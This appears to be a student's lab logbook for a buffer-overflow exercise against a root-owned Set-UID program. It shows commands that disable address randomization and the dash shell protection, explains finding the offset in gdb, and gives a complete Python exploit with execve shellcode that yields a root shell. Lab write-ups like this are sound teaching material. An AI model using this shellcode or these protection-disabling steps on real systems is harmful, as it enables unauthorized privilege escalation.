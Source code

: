 # Buffer-Overflow Attack Lab - Set-UID Version

# Introduction

In this logbook we will execute an exploit related to buffer-overflow. To do that we need to turn off some countermeasures of the system.

To prevent this type of attacks the systems implemented an address space randomization that will randomize the starting address of heap and stack. This makes guessing the addresses, one of the critical steps of buffer-overflow attacks, much more difficult.

To turn off this feature we ran this command:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

In the recent versions of Ubuntu OS, the `/bin/sh` symbolic link points to the `/bin/dash` shell. The `dash` program, as well as `bash`, has implemented a security countermeasure that prevents itself from being executed in a `Set-UID` process.

So we used the following command to link `/bin/sh` to another shell that doesn't have such a countermeasure `zsh`:

```bash
$ sudo ln -sf /bin/zsh /bin/sh
```

## Question 1

### Task 1

In this task we learn how a shell code works. Using the code provided in the file *call_shellcode.c* we can initiate a new shell. When we compile this program with the given *Makefile* it will create two binaries, *a32.out* and *a64.out*. Runnig them we will see that a new shell is initiated. 

### Task 2

In this task we deep dive to better understand the way the attack will be performed. First we disabled certain security mechanisms, to ensure that the program is susceptible to a buffer overflow attack, only then we compiled the vulnerable program `stack.c`. By setting the program as a root-owned Set-UID program, we created the conditions needed for potential privilege escalation when the vulnerability is exploited in the next task. In this task we also changed the L1 to be L1 = 100 + 8 * 6, being 6 the number of out group.

### Task 3

In this task, we exploit the buffer overflow vulnerability in `stack-L1-dbg` to initiate a shell by manipulating the EIP to point to our shellcode.


To begin, we used `gdb` to debug the file `stack-L1-dbg` that we created using the Makefile.
We set a breakpoint at the start of the program and identified key memory locations, like the ebp and the buffer address (Figure 1) and this way we can calculate the offset. The offset is determined by the difference between the ebp and the buffer address, plus 4, and represents the location where we’ll place the return address to redirect the EIP. With the offset we know were the EIP address is and we can manipulate it to have the address of some function we want to run instead of the address of the point were the EIP is pointing at. In this case we will pass the address of our shellcode.

<div align="center">
    <figure>
        <img src="images/logbook5/logbook5_1.png">
        <figcaption style="font-size: smaller">Figure 1: Ebp and buffer adresses</figcaption>
    </figure>
</div>

Knowing this we create a script in python (`exploit.py`) where we create a badfile with 517 NOPs (this will overflow the buffer because the size is 100+8*6). We also added the shellcode to the buffer toward the end of the buffer to maximize our chance of successful execution (but it can also work in another start locations). 

Toward the end of the buffer, we added the shellcode to ensure enough padding and increase our chances of successful execution (as asked in Question 2). This placement also allows us some flexibility, as it may work from other starting points within the buffer. We also calculated the return address to be 0xffffca7c + start (where start is the position within the buffer), then embedded it at the offset location to overwrite the EIP with the shellcode address.
 
Here's the Python script we used to generate badfile:

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f" 
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31" 
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca7c + start         # Change this number 
offset = 0xffffcb18 - 0xffffca7c + 4             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
  ```

When executed, this payload successfully overflows the buffer, overwriting the EIP and redirecting execution to our shellcode, launching a root shell (Figure 2).

<div align="center">
    <figure>
        <img src="images/logbook5/logbook5_2.png">
        <figcaption style="font-size: smaller">Figure 2: Exploit working</figcaption>
    </figure>
</div>

